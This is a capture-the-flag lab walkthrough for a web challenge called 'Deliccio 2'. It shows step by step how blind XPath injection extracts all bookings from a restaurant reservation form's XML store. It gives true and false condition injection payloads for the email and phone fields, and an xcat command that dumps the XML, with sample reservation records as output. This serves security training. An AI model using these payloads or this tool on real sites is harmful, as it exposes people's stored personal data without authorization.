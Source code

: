 # Challenge #2 - Deliccio 2

## Objectives

- Each customer can book a table and leave any particular information for the reservation. The web application stores the reservation in an xml file.
- Extract all the reservation of the day.


## Hints

- Recommended tools
  - Burps suite
  - Web Browser
  - XPath Blind Explorer 1.0

## What you will learn

- How to exploit XPath 1.0 Blind Injection
- How to extract information from an xml file through a blind XPath injection with multiple parameters
- How to use XPath Blind Explorer 1.0
- How to craft XPath Blind Explorer requests with Burp Proxy

## Steps

Click in 'Book your seat' and make a reservation.

```
Name: example
E-mail: example@email.com
Phone: 999-9999-9999
Lenght: 2
```

With burp enabled, go to 'Check your reservation' page and send with the reservation email.

```
http://2.challenge.xpath.site/checkreservation.php
```

Response
```
The reservation is <span>confirmed</span>!
```

On the burp side, send the request to repeater and replace the email parameter with the payloads below.

True condition
```
email=' or '1'='1&phone=' or '1'='1
```

Response
```
The reservation is <span>confirmed</span>!
```

False condition
```
email=' or '1'='2&phone=' or '1'='1
```

Response
```
There is no reservation that corresponds to the data entered..
```

Download the last version of XCat.

```
https://github.com/orf/xcat
```

Execute the command below to run xcat.

```
xcat run -m POST http://2.challenge.xpath.site/checkreservation.php email email="example@email.com" phone="999-9999-9999" -ts "confirmed" -e FORM

<reservations>
	<reservation>
		<id>
			1
		</id>
		<fullname>
			Amelia Sandoval
		</fullname>
		<email>
			f1rsssssst@email.com
		</email>
		<phone>
			456-9628-3863
		</phone>
		<res_lenght>
			4
		</res_lenght>
		<info>
			No secret here...
		</info>
	</reservation>
[...]
```
